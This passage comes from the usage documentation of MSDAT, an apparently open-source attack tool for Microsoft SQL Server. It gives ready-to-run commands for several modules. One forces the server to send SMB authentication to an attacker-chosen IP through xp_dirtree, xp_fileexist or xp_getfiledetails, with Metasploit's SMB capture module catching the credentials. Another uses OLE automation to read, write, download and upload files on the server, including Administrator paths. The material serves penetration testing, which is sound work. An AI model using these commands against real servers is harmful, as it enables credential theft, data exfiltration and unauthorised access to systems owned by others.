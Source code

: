 The *--disable-xpcmdshell* option disables *xp_cmdshell* if this one is enabled.

*smbauthcapture* module
---

Thanks to this module, you can capture a SMB authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --capture $MY_IP_ADDRESS --share-name SHARE
```

To capture the SMB authentication, the *auxiliary/server/capture/smb* ([http://www.rapid7.com/db/modules/auxiliary/server/capture/smb](http://www.rapid7.com/db/modules/auxiliary/server/capture/smb)) module of metasploit could be used:
```bash
msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > exploit
```

The *__capture__* command of this module tries to capture a SMB authentication thanks to *xp_dirtree*, *xp_fileexist* or *xp-getfiledetails* procedure.

If you want to choose the SMB authentication procedure to capture the authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-dirtree-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-fileexist-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-getfiledetails-capture 127.0.0.1
```

You can change the SHARE name with the *--share-name* option.

*oleautomation* module
---

This module can be used to read/write file in the database server.

The following command read the file *temp.txt* stored in the database server:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --read-file 'C:\Users\Administrator\Desktop\temp.txt'
```

To write a string in a file (*temp.txt*) remotely:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --write-file 'C:\Users\Administrator\Desktop\temp.txt' 'a\nb\nc\nd\ne\nf'
```

This module can be used to download a file (*C:\Users\Administrator\Desktop\temp.txt*) stored on the database server:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --get-file 'C:\Users\Administrator\Desktop\temp.txt' temp.txt
```

Also, you can use this module to upload a file (*temp.txt*) on the target:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --put-file temp.txt 'C:\Users\Administrator\Desktop\temp.txt
```
